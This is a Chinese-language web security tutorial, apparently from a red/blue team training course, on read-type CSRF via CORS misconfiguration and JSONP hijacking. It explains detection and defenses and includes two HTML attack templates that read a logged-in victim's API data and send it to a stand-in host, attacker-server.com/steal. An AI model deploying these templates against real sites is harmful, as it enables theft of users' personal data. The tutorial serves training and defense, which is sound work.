










# 护网行动红蓝攻防教程：P36：Web安全-12：CSRF实战

在本节课中，我们将要学习CSRF（跨站请求伪造）攻击中两种特殊的“读取型”漏洞：CORS配置不当与JSONP劫持。我们将了解它们的原理、如何发现以及如何利用，并掌握相应的防御思路。

## 同源策略与跨域解决方案

上一节我们介绍了操作型CSRF，即诱导用户执行非本意的操作。本节中我们来看看如何利用跨域机制窃取用户数据。

浏览器出于安全考虑，实施了**同源策略**。该策略规定，来自一个源的文档或脚本，在没有明确授权的情况下，不能与另一个源的资源进行交互。其核心判断依据是协议、域名、端口三者必须完全相同。

**公式：同源判断**
```
如果 (协议A == 协议B) 且 (域名A == 域名B) 且 (端口A == 端口B)
    则 同源
否则
    则 不同源（跨域）
```

然而，在现代Web开发中，前后端分离架构非常普遍，经常需要从一个域名（如 `www.frontend.com`）的页面去请求另一个域名（如 `api.backend.com`）的数据接口，这就产生了跨域需求。

为了解决跨域问题，开发者采用了多种技术，其中两种常见且可能因配置不当导致安全漏洞的方案是：
*   **CORS**：跨域资源共享
*   **JSONP**：JSON with Padding

## CORS配置不当漏洞

CORS是一种W3C标准，它允许服务器声明哪些源可以访问其资源。其核心机制是通过HTTP头部字段进行通信。

### 漏洞原理

当浏览器发起跨域请求时，会自动在请求头中添加一个 `Origin` 字段，表明请求来自哪个源。例如：
```
Origin: http://evil.com
```
服务器收到请求后，会根据自身策略，在响应头中返回 `Access-Control-Allow-Origin` 字段。如果该字段的值是请求的 `Origin` 值（或通配符 `*`），浏览器就会允许此次跨域请求，前端脚本可以读取响应内容。

**漏洞成因**：如果服务器配置了过于宽松的CORS策略，例如将 `Access-Control-Allow-Origin` 设置为通配符 `*`，或者动态反射了请求中的 `Origin` 值而未做严格校验，那么任何网站都可以通过脚本跨域读取该接口的数据。





### 漏洞发现

以下是发现CORS配置不当漏洞的方法：





1.  使用Burp Suite等工具拦截目标网站的请求。
2.  观察响应头中是否包含 `Access-Control-Allow-Origin` 字段。
3.  尝试修改请求中的 `Origin` 头为一个任意值（如 `http://evil.com`）。
4.  如果响应头中的 `Access-Control-Allow-Origin` 值变成了你设置的 `Origin` 值，或者本身就是 `*`，则存在漏洞。

**代码示例：存在漏洞的响应头**
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://evil.com  // 动态反射了Origin，存在风险
Access-Control-Allow-Credentials: true        // 允许携带Cookie，危害更大
```

### 漏洞利用（读取型CSRF）

攻击者可以构造一个恶意页面，当受害者（已登录目标网站）访问该页面时，页面中的脚本会悄无声息地向目标网站的敏感接口发起跨域请求，并窃取返回的数据（如个人信息、收货地址等）。

**攻击代码模板（需替换部分内容）**
```html
<!DOCTYPE html>
<html>
<head>
    <title>恶意页面</title>
    <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
</head>
<body>
    <script>
        // 目标网站的敏感数据接口
        var targetUrl = ‘http://vulnerable-site.com/api/userinfo‘;
        // 攻击者控制的服务器，用于接收窃取的数据
        var attackerUrl = ‘http://attacker-server.com/steal?data=‘;

        $.ajax({
            url: targetUrl,
            type: ‘GET‘,
            // 关键：尝试跨域请求
            xhrFields: {
                withCredentials: true // 发送Cookie，用于身份认证
            },
            success: function(data) {
                // 请求成功，数据被返回
                // 将数据发送到攻击者服务器
                $.get(attackerUrl + encodeURIComponent(JSON.stringify(data)));
            },
            error: function(xhr, status, error) {
                // 请求失败（通常因为CORS限制）
                console.log(‘Failed:‘, error);
            }
        });
    </script>
</body>
</html>
```





## JSONP劫持漏洞

JSONP是一种利用 `<script>` 标签没有跨域限制的特性来实现跨域数据获取的古老技术。

### 漏洞原理

正常JSONP调用如下：
1.  前端定义一个回调函数，例如 `function callback(data) { console.log(data); }`。
2.  动态创建一个 `<script>` 标签，其 `src` 指向目标数据接口，并附带回调函数名作为参数，如 `http://api.example.com/data?callback=callback`。
3.  服务器返回一段JavaScript代码，格式为 `callback(‘{“user”: “Alice”}‘)`。
4.  浏览器执行这段代码，即调用了前端定义好的 `callback` 函数，并传入了数据。

**漏洞成因**：如果JSONP接口对回调函数名参数（常为 `callback` 或 `cb`）未做任何过滤和校验，并且返回的数据包含敏感信息，攻击者就可以构造恶意页面，定义自己的回调函数来窃取数据。



### 漏洞发现


以下是发现JSONP劫持漏洞的方法：

1.  在网站请求中寻找返回内容类型为 `application/javascript` 或包含 `callback(` 字样的接口。
2.  找到回调函数参数（如 `callback=jsonp123`）。
3.  尝试修改该参数值为任意值（如 `callback=attackerFunc`）。
4.  如果返回的JS代码中的函数名也随之改变，则存在漏洞。

### 漏洞利用

攻击者构造恶意页面，诱使受害者访问。页面中定义了攻击者的回调函数，并通过 `<script>` 标签加载目标JSONP接口，从而窃取数据。

**攻击代码模板**
```html
<!DOCTYPE html>
<html>
<head>
    <title>恶意页面</title>
</head>
<body>
    <script>
        // 定义攻击者的回调函数
        function attackerFunc(data) {
            // 接收到敏感数据
            alert(‘Stolen data: ‘ + JSON.stringify(data));
            // 将数据发送到攻击者服务器
            var img = new Image();
            img.src = ‘http://attacker-server.com/steal?data=‘ + encodeURIComponent(JSON.stringify(data));
        }
    </script>
    <!-- 利用 script 标签跨域请求JSONP接口 -->
    <script src=“http://vulnerable-site.com/api/userinfo?callback=attackerFunc”></script>
</body>
</html>
```

## 漏洞防御

了解了攻击原理，防御措施就相对清晰：

*   **CORS防御**：
    *   避免使用 `Access-Control-Allow-Origin: *`。
    *   在服务器端严格校验 `Origin` 头，只允许信任的源。
    *   若非必要，避免设置 `Access-Control-Allow-Credentials: true`。
*   **JSONP防御**：
    *   严格校验回调函数名参数，只允许预定义的、安全的函数名。
    *   为JSONP响应头添加 `Content-Type: application/javascript`，避免被当作JSON解析。
    *   **最佳实践**：使用更安全的CORS替代JSONP来实现跨域。
*   **通用防御**：
    *   为敏感操作接口添加**CSRF Token**。
    *   检查请求头中的 **`Referer`** 或 **`Origin`** 字段，验证请求来源是否合法。
    *   对于敏感数据的读取接口，同样应考虑身份验证和授权机制。





## 总结



本节课中我们一起学习了两种“读取型”CSRF漏洞：CORS配置不当与JSONP劫持。
*   **CORS漏洞**源于服务器跨域策略配置过于宽松，允许任意源读取数据。
*   **JSONP劫持**源于对回调函数名参数缺乏校验，导致攻击者能控制数据接收函数。
两者都能在用户无感知的情况下，窃取其登录态下的敏感信息。作为防御方，应严格配置跨域策略，并对用户输入（包括URL参数）进行有效校验；作为攻击方（在授权测试中），则应关注敏感数据接口，尝试利用这些跨域机制来验证漏洞的存在性。